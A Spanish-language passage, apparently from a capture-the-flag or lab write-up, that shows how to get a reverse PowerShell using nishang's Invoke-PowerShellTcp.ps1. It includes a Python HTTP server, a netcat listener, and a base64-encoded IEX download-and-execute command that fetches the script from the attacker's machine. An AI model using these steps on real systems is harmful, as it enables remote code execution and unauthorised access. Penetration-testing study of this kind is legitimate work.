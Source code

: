 ## Entablando Revershell 

Para entrar a la maquina y obtener una Powershell tiraremos de una repo de GitHub el de nishang
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Dentro del repositorio solamente ocuparemos el archivo **Invoke-PowerShellTcp.ps1** que esta dentro de la carpeta **shells**

Y para facilitarnos las cosas modificaremos el archivo para que se automatice un poco mas 

![paste](./images/22.jpeg)

Edita el archivo y hasta el final de todo ponemos esta linea con nuestra respectiva dirección y puerto :

![paste](./images/23.jpeg)

Bien, para que funcione, lo que vamos a realizar los siguientes pasos:

**1 Usando un servidor en Python, tendrá que estar accesible nuestro archivo Ps1.ps1*** 

```bash
python3 -m http.server 80 
```

**2 Usar Nc para recibir la PowerShell***

```bash
nc -lvnp your_port
```

**3 Después, realizaremos la conversión a bas64 del comando que descargara de nuestra maquina el Ps1.ps1(PowerShell inversa)***

```bash
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.X.X/Ps1.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```
